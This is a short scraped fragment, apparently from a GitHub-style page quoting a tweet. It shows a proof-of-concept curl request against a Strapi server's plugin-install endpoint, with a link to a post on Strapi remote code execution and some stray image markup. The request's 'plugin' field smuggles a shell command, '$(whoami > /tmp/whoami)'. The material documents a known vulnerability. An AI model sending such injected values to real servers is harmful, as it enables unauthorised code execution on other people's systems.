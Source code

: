 curl -H $'Authorization: Bearer [jwt]' ... --data {"plugin": "documentation &amp;&amp; $(whoami &gt; /tmp/whoami)","port":"1337"}

https://t.co/EHl0j8DKGS https://t.co/Xy0RL8l3kS
</blockquote>

* https://bittherapy.net/post/strapi-framework-remote-code-execution/

<table><tr>
<td><img src="pictures/4f628d2c7ff13a7cf2cb67e84a4dad09f30cf1c90b87e94e71c3981d5ba3c777.jpg" alt="4f628d2c7ff13a7cf2cb67e84a4dad09f30cf1c90b87e94e71c3981d5ba3c777.jpg"></td>
<td><img src="pictures/75e25efa578f9b2b717fabdf2debbea928f4c6a8cd854957c8d06b806ad81906.jpg" alt="75e25efa578f9b2b717fabdf2debbea928f4c6a8cd854957c8d06b806ad81906.jpg"></td>
</table></tr>
<table><tr>